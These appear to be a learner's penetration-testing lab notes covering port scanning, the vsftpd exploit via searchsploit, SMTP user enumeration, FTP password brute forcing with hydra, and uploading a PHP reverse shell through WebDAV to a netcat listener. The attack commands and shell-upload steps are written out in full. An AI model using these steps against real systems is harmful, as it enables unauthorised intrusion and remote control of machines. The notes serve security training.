 

#### Port scanning & enumeration 

- service versoin detection scan on target system `nmap -sV -p1-10000 target -oN nmap_10k.txt 
- manual banner grabbing if nmap does not provide any results: `nc - nv ip port`

![[Pasted image 20230916125239.png]] 
this port allowed a connection to a bind shell listener (root shell :O)


#### Targeting vsFTPd

- nmap port 21 
if anonymous login is allowed we can login without credentials
- ftp ip port (username:anonoymous emptypassword)
- `searchsploit vsftpd `
- `searchsploit -m exploitdb_id 
- analyze exploit with `vim` 
- `chmod -x file`
- `python3 file ip `

it is possible that this does not work bc the port used in this exploit can be removed  by the administrator (check port wit nmap) -> exploits might not work bc they have been patched. 

- nmap -sV -p 25 ip (SMTP)
smtp gives you easy way to identify user accounts on target system. 
	- use msfconsole
	- search smtp_enum 
 accounts: add them to textfile. 

Use the account `service` in the bruteforce, not interesting to use service accounts for bruteforce. Only use user-accounts in bruteforce
ftp bruteforce: `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt target protocol `

Connect to ftp with credentials of useraccount
- `pwd` (if result is /home/service that that confirms that this is a user-account)
- `cd /`
- visit webserver in browser
	- Use webdav to get reverse shell 
		- `ls -al /usr/share/webshells/`
		- you need a php shell:  php-reverse-shell.php
		- copy file to current working directory: `cp /usr/share/webshells/php/php-reverse-shell.php . `
		- rename: `mv php-reverse-shell.php shell.php `
		- modify the file: change the ip to kali ip and the port should match with the port you will be listening on
			- set up netcat in other window: `nc -nvlp 1234 `
		- navigate to root of ftp (ftp stores everything under var)
			- cd /var/www
			- cd dav (only have rights to change this directory)
			- put shell.php 
			- click on the file (the netcat listener window will show a connection, /bin/bash -i)





#### Targeting PHP

























#### Targeting SAMBA 
